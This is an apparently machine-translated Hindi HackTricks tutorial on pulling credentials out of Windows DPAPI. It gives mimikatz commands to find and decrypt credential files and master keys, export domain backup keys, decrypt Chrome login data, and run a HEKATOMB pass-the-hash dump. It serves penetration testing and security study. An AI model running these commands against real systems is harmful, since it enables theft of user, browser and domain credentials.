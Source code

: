 # DPAPI - पासवर्ड निकालना

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* क्या आप किसी **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी **कंपनी को HackTricks में विज्ञापित** देखना चाहते हैं? या क्या आपको **PEASS के नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करने का उपयोग** करने की आवश्यकता है? [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जांच करें!
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एकल [**NFT**](https://opensea.io/collection/the-peass-family) संग्रह।
* [**आधिकारिक PEASS & HackTricks swag**](https://peass.creator-spring.com) प्राप्त करें
* [**💬**](https://emojipedia.org/speech-balloon/) [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में **शामिल** हों या मुझे **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)** का** **अनुसरण** करें।**
* **अपने हैकिंग ट्रिक्स को** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **और** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud) **में PR जमा करके अपना योगदान दें।**

</details>

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

​​[**RootedCON**](https://www.rootedcon.com/) स्पेन में सबसे महत्वपूर्ण साइबर सुरक्षा इवेंट है और यूरोप में सबसे महत्वपूर्ण में से एक है। **तकनीकी ज्ञान को बढ़ावा देने** की मिशन के साथ, यह कांग्रेस प्रौद्योगिकी और साइबर सुरक्षा विशेषज्ञों के लिए एक उबलता हुआ मिलन स्थान है।

{% embed url="https://www.rootedcon.com/" %}

इस पोस्ट को बनाते समय mimikatz को DPAPI के साथ संबंधित हर कार्रवाई के साथ समस्याएं थीं, इसलिए **अधिकांश उदाहरण और छवियां यहां से ली गई थीं**: [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++#extracting-dpapi-backup-keys-with-domain-admin)

## DPAPI क्या है

विंडोज ऑपरेटिंग सिस्टम में इसका प्राथमिक उपयोग असममित्र निजी कुंजीयों के सममित्र एन्क्रिप्शन करने के लिए किया जाता है, जहां उपयोगकर्ता या सिस्टम सीमितता के योगदान के रूप में एंट्रोपी का महत्वपूर्ण योगदान के रूप में एक सममित्र कुंजी का उपयोग करता है।\
**DPAPI विकासकों को उपयोगकर्ता के लॉगऑन सीक्रेट से एक सममित्र कुंजी का उपयोग करके कुंजीयों को एन्क्रिप्ट करने की अनुमति देता है**, या सिस्टम एन्क्रिप्शन के मामले में, सिस्टम के डोमेन प्रमाणीकरण सीक्रेट का उपयोग करके।

इससे डेवलपर को बहुत आसानी से डेटा को कंप्यूटर में **एन्क्रिप्टेड डेटा** सहेजने में मदद मिलती है **बिना** चिंता किए **एन्क्रिप्शन** **कुंजी** को **सुरक्षित** कैसे **रखें**।

### DPAPI क्या सुरक्षित करता है?

DPAPI का उपयोग निम्नलिखित व्यक्तिगत डेटा की सुरक्षा के लिए किया जाता है:

* इंटरनेट एक्सप्लोरर, Google \*Chrome में पासवर्ड और फॉर्म ऑटो-संपूर्णता डेटा
* Outlook, Windows Mail, Windows Mail आदि में ईमेल खाता पासवर्ड
* आंतरिक FTP प्रबंधक खाता पासवर्ड
* साझा फ़ोल्डर और संसाधन उपयोग पासवर्ड
* वायरलेस नेटवर्क खाता कुंजी और पासवर्ड
* विंडोज कार्डस्पेस और विंडोज वॉल्ट में एन्क्रिप्शन कुंजी
* रिमोट डेस्कटॉप कनेक्शन पासवर्ड, .NET पासपोर्ट
* एन्क्रिप्टिंग फ़ाइल सिस्टम (EFS), मेल S-MIME को एन्क्रिप्ट करना, अन्य उपयोगकर्ता के प्रमाणपत्र, इंटरनेट जानकारी सेवाओं में SSL/TLS
* EAP/TLS और 802.1x (VPN और WiFi प्रमाणीकरण)
* Credential Manager में नेटवर्क पासवर्ड
* API फ़ंक्शन CryptProtectData का उपयोग करके किसी भी एप्लिकेशन में प्रोग्रामेटिक रूप से सुरक्षित व्यक्तिगत डेटा। उदाहरण के लिए, Skype, Windows Rights Management Services, Windows Media, MSN messenger, Google Talk आदि में
```bash
# From cmd
vaultcmd /listcreds:"Windows Credentials" /all

# From mimikatz
mimikatz vault::list
```
## क्रेडेंशियल फ़ाइलें

**मास्टर पासवर्ड द्वारा संरक्षित क्रेडेंशियल फ़ाइलें** निम्नलिखित स्थानों पर स्थित हो सकती हैं:
```
dir /a:h C:\Users\username\AppData\Local\Microsoft\Credentials\
dir /a:h C:\Users\username\AppData\Roaming\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Local\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Roaming\Microsoft\Credentials\
```
एमिकेट्ज़ का उपयोग करके प्रमाणीकरण जानकारी प्राप्त करें `dpapi::cred`, प्रतिक्रिया में आपको एन्क्रिप्टेड डेटा और गाइडमास्टरकी जैसी रोचक जानकारी मिल सकती है।
```bash
mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\28350839752B38B238E5D56FDD7891A7

[...]
guidMasterKey      : {3e90dd9e-f901-40a1-b691-84d7f647b8fe}
[...]
pbData             : b8f619[...snip...]b493fe
[..]
```
आप **mimikatz मॉड्यूल** `dpapi::cred` का उपयोग कर सकते हैं उचित `/masterkey` के साथ डिक्रिप्ट करने के लिए:
```
dpapi::cred /in:C:\path\to\encrypted\file /masterkey:<MASTERKEY>
```
## मास्टर कुंजी

उपयोगकर्ता की RSA कुंजी को एन्क्रिप्ट करने के लिए उपयोग होने वाली DPAPI कुंजी `%APPDATA%\Microsoft\Protect\{SID}` निर्देशिका में संग्रहीत की जाती है, जहां {SID} उपयोगकर्ता का [**सुरक्षा पहचानकर्ता**](https://en.wikipedia.org/wiki/Security\_Identifier) होता है। **DPAPI कुंजी मास्टर कुंजी के साथी फ़ाइल में संग्रहीत की जाती है जो उपयोगकर्ता की निजी कुंजी को सुरक्षित करती है**। यह आमतौर पर यादृच्छिक डेटा के 64 बाइट होती है। (ध्यान दें कि यह निर्देशिका सुरक्षित होती है, इसलिए आप `cmd` से `dir` का उपयोग करके इसे सूचीबद्ध नहीं कर सकते हैं, लेकिन आप PS से इसे सूचीबद्ध कर सकते हैं)।
```bash
Get-ChildItem C:\Users\USER\AppData\Roaming\Microsoft\Protect\
Get-ChildItem C:\Users\USER\AppData\Local\Microsoft\Protect
Get-ChildItem -Hidden C:\Users\USER\AppData\Roaming\Microsoft\Protect\
Get-ChildItem -Hidden C:\Users\USER\AppData\Local\Microsoft\Protect\
Get-ChildItem -Hidden C:\Users\USER\AppData\Roaming\Microsoft\Protect\{SID}
Get-ChildItem -Hidden C:\Users\USER\AppData\Local\Microsoft\Protect\{SID}
```
एक उपयोगकर्ता के एक संग्रह की रूप में मास्टर कुंजी की दिखावट इस तरह होगी:

![](<../../.gitbook/assets/image (324).png>)

सामान्यतः **प्रत्येक मास्टर कुंजी एक एन्क्रिप्टेड सममित कुंजी होती है जो अन्य सामग्री को डिक्रिप्ट कर सकती है**। इसलिए, इसे डिक्रिप्ट करने के लिए **एन्क्रिप्टेड मास्टर कुंजी** को **निकालना** दृश्यमान होता है ताकि इसके साथ एन्क्रिप्ट की गई **अन्य सामग्री** को बाद में **डिक्रिप्ट** किया जा सके।

### मास्टर कुंजी निकालें और डिक्रिप्ट करें

पिछले खंड में हमने guidMasterKey को ढूंढ़ा जो इस तरह दिखता है `3e90dd9e-f901-40a1-b691-84d7f647b8fe`, यह फ़ाइल इसमें होगी:
```
C:\Users\<username>\AppData\Roaming\Microsoft\Protect\<SID>
```
जहां आप मिमीकैट्स के साथ मास्टर कुंजी को निकाल सकते हैं:
```bash
# If you know the users password
dpapi::masterkey /in:"C:\Users\<username>\AppData\Roaming\Microsoft\Protect\S-1-5-21-2552734371-813931464-1050690807-1106\3e90dd9e-f901-40a1-b691-84d7f647b8fe" /sid:S-1-5-21-2552734371-813931464-1050690807-1106 /password:123456 /protected

# If you don't have the users password and inside an AD
dpapi::masterkey /in:"C:\Users\<username>\AppData\Roaming\Microsoft\Protect\S-1-5-21-2552734371-813931464-1050690807-1106\3e90dd9e-f901-40a1-b691-84d7f647b8fe" /rpc
```
फ़ाइल की मास्टर कुंजी आउटपुट में दिखाई देगी।

अंत में, आप उस **मास्टरकी** का उपयोग करके **क्रेडेंशियल फ़ाइल** को **डिक्रिप्ट** कर सकते हैं:
```
mimikatz dpapi::cred /in:C:\Users\bfarmer\AppData\Local\Microsoft\Credentials\28350839752B38B238E5D56FDD7891A7 /masterkey:0c0105785f89063857239915037fbbf0ee049d984a09a7ae34f7cfc31ae4e6fd029e6036cde245329c635a6839884542ec97bf640242889f61d80b7851aba8df
```
### व्यवस्थापक के साथ सभी स्थानीय मास्टर कुंजी निकालें

यदि आप व्यवस्थापक हैं, तो आप निम्नलिखित उपयोग करके dpapi मास्टर कुंजी प्राप्त कर सकते हैं:
```
sekurlsa::dpapi
```
![](<../../.gitbook/assets/image (326).png>)

### डोमेन एडमिन के साथ सभी बैकअप मास्टर कुंजी निकालें

एक डोमेन एडमिन बैकअप dpapi मास्टर कुंजी प्राप्त कर सकता है जो एन्क्रिप्टेड कुंजी को डिक्रिप्ट करने के लिए उपयोग की जा सकती है:
```
lsadump::backupkeys /system:dc01.offense.local /export
```
![](<../../.gitbook/assets/image (327).png>)

प्राप्त की गई बैकअप कुंजी का उपयोग करके, चलिए उपयोगकर्ता 'spotless' की मास्टर कुंजी को डिक्रिप्ट करें:
```bash
dpapi::masterkey /in:"C:\Users\spotless.OFFENSE\AppData\Roaming\Microsoft\Protect\S-1-5-21-2552734371-813931464-1050690807-1106\3e90dd9e-f901-40a1-b691-84d7f647b8fe" /pvk:ntds_capi_0_d2685b31-402d-493b-8d12-5fe48ee26f5a.pvk
```
अब हम उपयोगकर्ता के एनक्रिप्टेड मास्टर कुंजी का उपयोग करके उनके `spotless` क्रोम सीक्रेट्स को डिक्रिप्ट कर सकते हैं:
```
dpapi::chrome /in:"c:\users\spotless.offense\appdata\local\Google\Chrome\User Data\Default\Login Data" /masterkey:b5e313e344527c0ec4e016f419fe7457f2deaad500f68baf48b19eb0b8bc265a0669d6db2bddec7a557ee1d92bcb2f43fbf05c7aa87c7902453d5293d99ad5d6
```
![](<../../.gitbook/assets/image (329).png>)

## डेटा को एन्क्रिप्ट और डिक्रिप्ट करना

आप डेटा को डीपीएपीआई का उपयोग करके मिमीकैट्स और सी++ का उपयोग करके एन्क्रिप्ट और डिक्रिप्ट करने का उदाहरण यहां पा सकते हैं: [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++#using-dpapis-to-encrypt-decrypt-data-in-c)\
आप डेटा को डीपीएपीआई का उपयोग करके सी# का उपयोग करके एन्क्रिप्ट और डिक्रिप्ट करने का उदाहरण यहां पा सकते हैं: [https://docs.microsoft.com/en-us/dotnet/standard/security/how-to-use-data-protection](https://docs.microsoft.com/en-us/dotnet/standard/security/how-to-use-data-protection)

## SharpDPAPI

[SharpDPAPI](https://github.com/GhostPack/SharpDPAPI#sharpdpapi-1) [@gentilkiwi](https://twitter.com/gentilkiwi) के [Mimikatz](https://github.com/gentilkiwi/mimikatz/) प्रोजेक्ट से कुछ DPAPI क्षमताओं का C# पोर्ट है।

## HEKATOMB

[**HEKATOMB**](https://github.com/Processus-Thief/HEKATOMB) एक टूल है जो LDAP निर्देशिका से सभी उपयोगकर्ताओं और कंप्यूटरों को निकालने और RPC के माध्यम से डोमेन कंट्रोलर बैकअप कुंजी को निकालने की क्रिया को स्वचालित करता है। स्क्रिप्ट फिर सभी कंप्यूटरों के आईपी ​​पते को संक्षेप में लाएगा और डोमेन बैकअप कुंजी के साथ सभी उपयोगकर्ताओं के सभी DPAPI ब्लॉब्स को पुनः प्राप्त करने के लिए सभी कंप्यूटरों पर smbclient का उपयोग करेगा।

`python3 hekatomb.py -hashes :ed0052e5a66b1c8e942cc9481a50d56 DOMAIN.local/administrator@10.0.0.1 -debug -dnstcp`

LDAP कंप्यूटर सूची से निकाले गए कंप्यूटर सूची के साथ आप उन्हें नहीं जानते होने के बावजूद हर सब नेटवर्क पा सकते हैं!

"क्योंकि डोमेन व्यवस्थापक अधिकार पर्याप्त नहीं होते हैं। सभी को हैक करो।"

## DonPAPI

[**DonPAPI**](https://github.com/login-securite/DonPAPI) स्वचालित रूप से DPAPI द्वारा संरक्षित गुप्त जानकारी को डंप कर सकता है।

## संदर्भ

* [https://www.passcape.com/index.php?section=docsys\&cmd=details\&id=28#13](https://www.passcape.com/index.php?section=docsys\&cmd=details\&id=28#13)
* [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++#using-dpapis-to-encrypt-decrypt-data-in-c)

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

[**RootedCON**](https://www.rootedcon.com/) स्पेन में सबसे महत्वपूर्ण साइबर सुरक्षा घटना है और यूरोप में सबसे महत्वपूर्ण में से एक है। **तकनीकी ज्ञान को बढ़ावा देने** की मिशन के साथ, यह कांग्रेस हर विषय में टेक्नोलॉजी और साइबर सुरक्षा विशेषज्ञों के लिए एक उबलता हुआ मिलन स्थान है।

{% embed url="https://www.rootedcon.com/" %}

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* क्या आप किसी **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी **कंपनी को HackTricks में विज्ञापित** देखना चाहते हैं? या क्या आपको **PEASS के नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करने का उपयोग** करने की अनुमति चाहिए? [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जांच करें!
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFT**](https://opensea.io/collection/the-peass-family) संग्रह
* प्राप्त करें [**आधिकारिक PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या मुझे **ट्विटर** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)** का** **अनुसरण करें।**
* **अपने हैकिंग ट्रिक्स साझा करें और PR** जमा करके [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **और** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud) **को डालकर।**

</details>
